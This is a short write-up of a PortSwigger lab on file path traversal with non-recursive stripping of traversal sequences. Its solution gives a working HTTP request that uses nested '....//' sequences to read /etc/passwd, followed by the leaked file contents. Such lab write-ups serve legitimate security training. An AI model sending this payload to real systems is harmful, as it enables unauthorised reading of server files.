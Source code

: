 # [Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solutions

```http
GET /image?filename=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd 

HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

